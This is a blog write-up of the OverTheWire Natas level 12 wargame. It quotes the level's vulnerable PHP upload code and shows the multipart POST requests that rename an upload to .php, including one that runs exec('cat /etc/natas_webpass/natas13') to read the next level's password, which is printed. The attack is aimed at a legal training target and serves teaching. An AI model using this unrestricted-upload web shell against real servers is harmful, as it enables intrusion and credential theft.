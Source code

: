 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 12"
date:   2015-09-19
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 12 > Level 13

![natas12-01](/assets/images/otw-natas/natas12-01.png)

```
[...]
<h1>natas12</h1>
<div id="content">
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

Run it once normally to see how it behaves.  Uploading a tiny image of a Thor hammer I found online results in the following POST request body and response.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

u117acfgc6.jpg
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"
Content-Type: image/jpeg

[...]
-----------------------------58323604319210243021201378353--
```

```
<h1>natas12</h1>
<div id="content">
The file <a href="upload/qtqgaelc6b.jpg">upload/qtqgaelc6b.jpg</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

A visit to `upload/qtqgaelc6b.jpg` confirms the image was uploaded as intended.

![natas12-02](/assets/images/otw-natas/natas12-02.png)

The name `u117acfgc6.jpg` was generated by the following line of code in the page.

```
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

It is passed to the server in the POST request, meaning we can submit our own value rather than what would be returned by `genRandomString()`.  Also, this means we don't need to use `.jpg` as the extension.  There is no evidence to suggest that the file is verified to be a `jpg` in any way, either.

Test this theory by uploading and viewing a text file.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

himom.txt
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

hi mom
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/z2xt622p6y.txt">upload/z2xt622p6y.txt</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-03](/assets/images/otw-natas/natas12-03.png)

The next thing to wonder is if we can 'upload' a php file and execute it...

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

shitsgoingdown.php
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

<?php phpinfo(); ?>
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/hhbhtomk6e.php">upload/hhbhtomk6e.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-04](/assets/images/otw-natas/natas12-04.png)

Yep, it's over.

```
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="filename"

ohcrap.php
-----------------------------58323604319210243021201378353
Content-Disposition: form-data; name="uploadedfile"; filename="thor.jpg"

<?php echo exec("cat /etc/natas_webpass/natas13"); ?>
-----------------------------58323604319210243021201378353--
```

```
<div id="content">
The file <a href="upload/a7vs4em78m.php">upload/a7vs4em78m.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

![natas12-05](/assets/images/otw-natas/natas12-05.png)

jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

Thanks to my co-worker Dejan who said something like "I wonder if you can upload a PHP file?!" near me while I was doing this.
